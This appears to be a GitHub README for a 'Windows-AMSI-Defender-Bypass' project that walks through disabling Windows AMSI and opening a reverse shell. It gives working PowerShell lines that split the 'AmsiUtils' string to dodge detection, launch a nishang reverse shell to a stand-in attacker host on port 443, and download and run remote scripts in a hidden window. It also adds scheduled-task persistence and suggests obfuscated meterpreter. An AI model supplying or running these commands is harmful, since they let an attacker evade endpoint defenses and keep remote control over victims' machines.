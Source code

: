 # Windows-AMSI-Defender-Bypass

::::Bypassing AMSI abd getting a Reverse Shell

To make all these things work, I used a script that disables the AMSI:
From : https://amsi.fail

You can generate your own, but make sure it works.
---------------------------------------------------------------------------------------
AMSI fail script,

fail.ps1:

some of those generated scripts uses the "Amsi Utils", but it gets caught by the AMSI, so i defined it outside of the code
like this:

$am='Amsi'+'U'+'til'+'s' 

--------------------------------------------------------------------------------------------
Getting the shell:

nish.ps1: the TCP nishang that we always use from: https://github.com/samratashok/nishang/tree/master/Shells

definning this at the end of the script

Invoke-PowerShellTcp -Reverse -IPAddress example.attacker.net -Port 443 

------------------------------------------------------------------------------------------------
Running all in one:

trigger.ps1:   This script is going to be the trigger for the 2 invokes(fail.ps1, nish.ps1), it also defines the $am of fail.ps1:

$n = (new-object net.webClient);$am='Amsi'+'U'+'til'+'s';iex ($n).DownloadString('http://example.ddns.net:80/fail.ps1');iex ($n).DownloadString('http://example.ddns.net:80/nish.ps1')

------------------------------------------------------------------------------------------------------------------------------------------------

Finally we just need to do a Invoke-Expression of the trigger:

powershell -windowstyle hidden iex(new-object net.webclient).DownloadString('htt'+'p:/'+'/example.ddns.net:80/trigger.ps1')

Every child process running from this powershell session is going to run without the AMSI, so could easily run a meterpreter from this, but make sure to obfucate it because meterpreter is way more intrusive.


---------------------------------------------

---------------------------------------------

To add an extra, we can make all of this run as many time as we want by scheduling these Invokes-Expression's:

sched.ps1:   You can modify this to run whenever you want, in (New-TimeSpan -Minutes 'minutes between each run')

so in this case you are going to run 2 Invokes:
          
          
powershell -windowstyle hidden iex(new-object net.webclient).DownloadString('htt'+'p:/'+'/example.ddns.net:80/trigger.ps1')
powershell -windowstyle hidden iex(new-object net.webclient).DownloadString('htt'+'p:/'+'/example.ddns.net:80/sched.ps1')

You can make only one call by creating another .ps1

All of these scripts are goint to be in: 
https://github.com/Filiplain/Windows-AMSI-Defender-Bypass
